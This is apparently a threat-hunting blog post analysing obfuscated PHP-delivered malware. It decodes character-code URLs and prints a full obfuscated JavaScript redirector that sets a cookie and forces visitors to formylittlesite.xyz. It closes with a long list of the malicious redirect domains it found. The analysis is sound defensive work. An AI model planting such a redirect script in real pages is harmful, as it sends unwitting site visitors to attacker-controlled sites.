 +++
date = "2019-01-29"
title = "Analysis of Obfuscated PHP Malware"
description = "A partial analysis of some obfuscated PHP."
tags = ["Threat Intelligence", "Threat Hunting", "Biblioteca"]
+++

<i>Updated on February 27, 2019.</i>

I am monitoring the php decoder site [here](https://malwaredecoder.com/) and was alerted when the decoded php [here](https://malwaredecoder.com/result/2333ee92d6f6872f6b5e685a9f4b3ed3) had a `String.fromCharCode` command in it. After decoding the character code (`104, 116, 116, 112, 115, 58, 47, 47, 103, 101, 116, 109, 121, 99, 111, 110, 102, 105, 103, 112, 108, 101, 97, 115, 101, 46, 99, 111, 109, 47, 103, 101, 116, 46, 112, 104, 112`)<!-- <sup>1</sup> -->, this produced `https://getmyconfigplease[.]com/get[.]php`. The content of this site looks like:

```
var sECIQY8TzC = document.createElement('script'); sECIQY8TzC.type = 'text/javascript'; sECIQY8TzC.src = String.fromCharCode(104, 116, 116, 112, 115, 58, 47, 47, 112, 97, 115, 116, 101, 98, 105, 110, 46, 99, 111, 109, 47, 114, 97, 119, 47, 69, 110, 78, 75, 113, 71, 76, 78); document.head.appendChild(sECIQY8TzC);
```

Decoding the `String.fromCharCode` bit<!-- <sup>2</sup> --> produces `https://pastebin.com/raw/EnNKqGLN`.

<!-- <aside class="marginnote">
  <p><span class="noteNumber">1</span> - In biblioteca: <code>fromCharCode([104, 116, 116, 112, 115, 58, 47, 47, 103, 101, 116, 109, 121, 99, 111, 110, 102, 105, 103, 112, 108, 101, 97, 115, 101, 46, 99, 111, 109, 47, 103, 101, 116, 46, 112, 104, 112])</code></p>
  <p><span class="noteNumber">2</span> - In biblioteca: <code>fromCharCode([104, 116, 116, 112, 115, 58, 47, 47, 112, 97, 115, 116, 101, 98, 105, 110, 46, 99, 111, 109, 47, 114, 97, 119, 47, 69, 110, 78, 75, 113, 71, 76, 78])</code></p>
</aside> -->

The content of this site is:

```
function _0x16ac9e(){var _0x11da69=['MHgy','MHgz','MHg0','MHg2','aHJlZg==','cmVwbGFjZQ==','bG9jYXRpb24=','aW5kZXhPZg==','Y29va2ll','QmVzdENvb2tpZT10cnVlOyBtYXgtYWdlPTIwNDAw','c2hpZnQ=','MHgw','MHgx'];(function(_0x538417,_0x48f8ea){var _0x350dbc=function(_0x2e576b){while(--_0x2e576b){_0x538417['push'](_0x538417['shift']());}};_0x350dbc(++_0x48f8ea);}(_0x11da69,0xd5));var _0x4097a7=function(_0x506a3d,_0x321114){_0x506a3d=_0x506a3d-0x0;var _0x32b6f7=_0x11da69[_0x506a3d];if(_0x4097a7['cNcBaR']===undefined){(function(){var _0x29eb7d;try{var _0x4e84d1=Function('return\x20(function()\x20'+'{}.constructor(\x22return\x20this\x22)(\x20)'+');');_0x29eb7d=_0x4e84d1();}catch(_0x476c5c){_0x29eb7d=window;}var _0x3b1078='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';_0x29eb7d['atob']||(_0x29eb7d['atob']=function(_0x2199f9){var _0x207876=String(_0x2199f9)['replace'](/=+$/,'');for(var _0x3d686c=0x0,_0x55acec,_0x22a388,_0x5795eb=0x0,_0x5c30ef='';_0x22a388=_0x207876['charAt'](_0x5795eb++);~_0x22a388&&(_0x55acec=_0x3d686c%0x4?_0x55acec*0x40+_0x22a388:_0x22a388,_0x3d686c++%0x4)?_0x5c30ef+=String['fromCharCode'](0xff&_0x55acec>>(-0x2*_0x3d686c&0x6)):0x0){_0x22a388=_0x3b1078['indexOf'](_0x22a388);}return _0x5c30ef;});}());_0x4097a7['qogRBP']=function(_0xd61dcf){var _0x10ae9e=atob(_0xd61dcf);var _0x3a9531=[];for(var _0x3a6320=0x0,_0x8d019b=_0x10ae9e['length'];_0x3a6320<_0x8d019b;_0x3a6320++){_0x3a9531+='%'+('00'+_0x10ae9e['charCodeAt'](_0x3a6320)['toString'](0x10))['slice'](-0x2);}return decodeURIComponent(_0x3a9531);};_0x4097a7['KYlgqs']={};_0x4097a7['cNcBaR']=!![];}var _0x579681=_0x4097a7['KYlgqs'][_0x506a3d];if(_0x579681===undefined){_0x32b6f7=_0x4097a7['qogRBP'](_0x32b6f7);_0x4097a7['KYlgqs'][_0x506a3d]=_0x32b6f7;}else{_0x32b6f7=_0x579681;}return _0x32b6f7;};var _0x2be368=[_0x4097a7('0x0'),_0x4097a7('0x1'),'fromCharCode','BestCookie=true',_0x4097a7('0x2'),_0x4097a7('0x3'),_0x4097a7('0x4')];(function(_0x6e5b15,_0x2c75a3){var _0x42951f=function(_0x1975b5){while(--_0x1975b5){_0x6e5b15['push'](_0x6e5b15[_0x4097a7('0x5')]());}};_0x42951f(++_0x2c75a3);}(_0x2be368,0x1c9));var _0x4755cb=function(_0x5ad1ee,_0x39c6df){_0x5ad1ee=_0x5ad1ee-0x0;var _0x38bd4b=_0x2be368[_0x5ad1ee];return _0x38bd4b;};var _0x443bde=[_0x4755cb(_0x4097a7('0x6')),_0x4755cb(_0x4097a7('0x7')),_0x4755cb(_0x4097a7('0x8')),_0x4755cb(_0x4097a7('0x9')),_0x4755cb(_0x4097a7('0xa')),_0x4755cb('0x5'),_0x4755cb(_0x4097a7('0xb')),_0x4097a7('0xc')];var _0x4efd8b=String[_0x443bde[0x0]](0x68,0x74,0x74,0x70,0x73,0x3a,0x2f,0x2f,0x66,0x6f,0x72,0x6d,0x79,0x6c,0x69,0x74,0x74,0x6c,0x65,0x73,0x69,0x74,0x65,0x2e,0x78,0x79,0x7a,0x2f,0x6c,0x69,0x74,0x74,0x6c,0x65,0x2e,0x70,0x68,0x70);if(document[_0x443bde[0x3]][_0x443bde[0x2]](_0x443bde[0x1])==-0x1){document[_0x443bde[0x3]]=_0x443bde[0x4];window[_0x443bde[0x6]][_0x443bde[0x5]](_0x4efd8b);document[_0x443bde[0x6]][_0x443bde[0x5]](_0x4efd8b);window[_0x443bde[0x6]][_0x443bde[0x7]]=_0x4efd8b;document[_0x443bde[0x6]][_0x443bde[0x7]]=_0x4efd8b;}}_0x16ac9e();
```

### Update (February 27, 2019)

*The content below was added on February 27, 2019.*

Upon further investigation, the code above contains the interesting snippet:

```
(0x68,0x74,0x74,0x70,0x73,0x3a,0x2f,0x2f,0x66,0x6f,0x72,0x6d,0x79,0x6c,0x69,0x74,0x74,0x6c,0x65,0x73,0x69,0x74,0x65,0x2e,0x78,0x79,0x7a,0x2f,0x6c,0x69,0x74,0x74,0x6c,0x65,0x2e,0x70,0x68,0x70)
```

This hex that decodes to:

```
https://formylittlesite.xyz/little.php
```

Visitors to this site will be redirected to a URL on one of the following domains (the full URLs are listed below):

```
appelertte.tk
atlanta-rostov.ru
avtonewsmir.ru
avtoservis5plus.ru
avtowoldsnews.ru
creditforms.site
edu-fddu.info
giner.online
greencool.icu
informzine.site
lentube.host
merkuriu.icu
picturesun.top
rriverrponse.tk
sarriverdoma.tk
school-fix-news.info
storics.info
studentachieve.tk
visnu.icu
www.twero.com
```

Here are the URLs to which I was redirected:

```
http://appelertte.tk/index/?8mMwj2&extra_param_1=261
http://appelertte.tk/index/?8mMwj2&extra_param_1=695
http://atlanta-rostov.ru/2018/12/26/ken-shamrock-vs-kimbo-slice-full-fight/
http://atlanta-rostov.ru/2018/12/27/rhythmbox-vs-banshee/
http://atlanta-rostov.ru/latest.php
http://avtonewsmir.ru/the-best-stock-photos/
http://avtoservis5plus.ru/main-credit-reporting-agencies/
http://avtowoldsnews.ru/forex-trading-for-dummies-2013-pdf/
http://avtowoldsnews.ru/latest.php
http://creditforms.site/average-car-insurance-rates-florida/
http://creditforms.site/latest.php
http://creditforms.site/the-carburetors/
http://edu-fddu.info/blog/latest.php
http://giner.online/can-you-apply-for-more-than-one-credit-card/
http://greencool.icu/blog/?p=502
http://greencool.icu/blog/latest.php
http://informzine.site/2018/12/26/papigfunk/
http://informzine.site/latest.php
http://lentube.host/forex-trading-tutorials/
http://lentube.host/latest.php
http://lentube.host/top-forex-traders-in-the-world-2017/
http://lentube.host/what-is-a-broker-forex-nu3p/
http://merkuriu.icu/blog/?p=446
http://picturesun.top/blog/?p=102
http://picturesun.top/blog/?p=104
http://picturesun.top/blog/?p=125
http://picturesun.top/blog/?p=13
http://picturesun.top/blog/?p=1348
http://picturesun.top/blog/?p=1357
http://picturesun.top/blog/?p=1382
http://picturesun.top/blog/?p=1416
http://picturesun.top/blog/?p=1444
http://picturesun.top/blog/?p=1485
http://picturesun.top/blog/?p=149
http://picturesun.top/blog/?p=1494
http://picturesun.top/blog/?p=1499
http://picturesun.top/blog/?p=1509
http://picturesun.top/blog/?p=1537
http://picturesun.top/blog/?p=1553
http://picturesun.top/blog/?p=156
http://picturesun.top/blog/?p=1566
http://picturesun.top/blog/?p=158
http://picturesun.top/blog/?p=1589
http://picturesun.top/blog/?p=1600
http://picturesun.top/blog/?p=1611
http://picturesun.top/blog/?p=1631
http://picturesun.top/blog/?p=1651
http://picturesun.top/blog/?p=1655
http://picturesun.top/blog/?p=1658
http://picturesun.top/blog/?p=1667
http://picturesun.top/blog/?p=1675
http://picturesun.top/blog/?p=1690
http://picturesun.top/blog/?p=1694
http://picturesun.top/blog/?p=174
http://picturesun.top/blog/?p=178
http://picturesun.top/blog/?p=18
http://picturesun.top/blog/?p=183
http://picturesun.top/blog/?p=209
http://picturesun.top/blog/?p=213
http://picturesun.top/blog/?p=226
http://picturesun.top/blog/?p=242
http://picturesun.top/blog/?p=252
http://picturesun.top/blog/?p=256
http://picturesun.top/blog/?p=268
http://picturesun.top/blog/?p=274
http://picturesun.top/blog/?p=280
http://picturesun.top/blog/?p=306
http://picturesun.top/blog/?p=312
http://picturesun.top/blog/?p=314
http://picturesun.top/blog/?p=334
http://picturesun.top/blog/?p=348
http://picturesun.top/blog/?p=354
http://picturesun.top/blog/?p=374
http://picturesun.top/blog/?p=376
http://picturesun.top/blog/?p=380
http://picturesun.top/blog/?p=382
http://picturesun.top/blog/?p=396
http://picturesun.top/blog/?p=404
http://picturesun.top/blog/?p=418
http://picturesun.top/blog/?p=426
http://picturesun.top/blog/?p=430
http://picturesun.top/blog/?p=448
http://picturesun.top/blog/?p=452
http://picturesun.top/blog/?p=458
http://picturesun.top/blog/?p=470
http://picturesun.top/blog/?p=476
http://picturesun.top/blog/?p=480
http://picturesun.top/blog/?p=484
http://picturesun.top/blog/?p=500
http://picturesun.top/blog/?p=513
http://picturesun.top/blog/?p=517
http://picturesun.top/blog/?p=523
http://picturesun.top/blog/?p=527
http://picturesun.top/blog/?p=529
http://picturesun.top/blog/?p=531
http://picturesun.top/blog/?p=537
http://picturesun.top/blog/?p=541
http://picturesun.top/blog/?p=543
http://picturesun.top/blog/?p=545
http://picturesun.top/blog/?p=551
http://picturesun.top/blog/?p=557
http://picturesun.top/blog/?p=565
http://picturesun.top/blog/?p=567
http://picturesun.top/blog/?p=569
http://picturesun.top/blog/?p=573
http://picturesun.top/blog/?p=575
http://picturesun.top/blog/?p=622
http://picturesun.top/blog/?p=86
http://picturesun.top/blog/?p=92
http://picturesun.top/blog/?p=96
http://picturesun.top/blog/latest.php
http://rriverrponse.tk/index/?8mMwj2&extra_param_1=695
http://sarriverdoma.tk/index/?8mMwj2&extra_param_1=695
http://school-fix-news.info/2019/01/09/car-accident-my-fault-will-my-insurance-go-up/
http://storics.info/2018/12/27/business-credit-cards-for-bad-credit/
http://storics.info/2018/12/27/cheapest-home-equity-line-of-credit/
http://storics.info/2018/12/27/paid-in-full-on-credit-report/
http://storics.info/2018/12/27/wipe-credit-clean/
http://storics.info/latest.php
http://visnu.icu/philadelphia-indemnity-car-insurance/
https://www.twero.com/en/profiles?p=1027797&pi=test1&_=1548965393
```

I intend to more investigation on the registrant information for these domains at some point and will keep you posted!
